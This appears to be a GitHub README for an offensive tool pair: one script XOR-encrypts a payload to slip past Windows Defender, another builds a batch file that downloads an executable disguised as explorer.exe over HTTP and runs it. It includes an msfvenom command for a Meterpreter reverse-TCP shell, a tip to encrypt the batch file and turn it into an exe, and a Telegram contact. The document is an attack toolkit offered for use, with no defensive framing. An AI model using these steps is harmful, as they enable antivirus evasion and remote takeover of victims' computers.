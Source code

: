 # windows defender bypass with c++ and batchscript

required mingw32-g++ and python installed on your os.

help <windefbyp.py>:
```
options:
  -h, --help         show this help message and exit
  -p <payload.bin>   payload file path, ex: ./payload.bin
  -o <output.cpp>    output file (.cpp extension), ex: ./output.cpp
  -e <exe_file.exe>  exe output file (.exe extension), ex: exe_file.exe
```

usage <windefbyp.py>:
```
windefbyp.py [-h] -p <payload.bin> -o <output.cpp> -e <exe_file.exe>
```

help <need2bat.py>:
```
options:
  -h, --help         show this help message and exit
  -u [http://url]    payload file url, ex: http://192.168.1.5:8080/payload.exe
  -d <explorer.exe>  output file name for downloading, ex: explorer.exe (.exe extension)
  -o <output.bat>    output file name, ex: output.bat (.bat extension)
```

usage <need2bat.py>:
```
need2bat.py [-h] -u [http://url] -d <explorer.exe> -o <output.bat>
```

# hint:

- encrypt the output .bat file and convert it to exe (;
  
- use this command to make <payload.bin> file (must be installed metasploit):
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ur_ip lport=ur_port -f raw > ./payload.bin
```

# info:

windefbyp.py: windows defender bypass with xor encryption

need2bat.py: create a .bat file that download the payload file from via http and run it via cmd

source.cpp: source file for windefbyp.py

source.bat: source file for need2bat.py

dm on telegram: @TSuNAmi_ORg
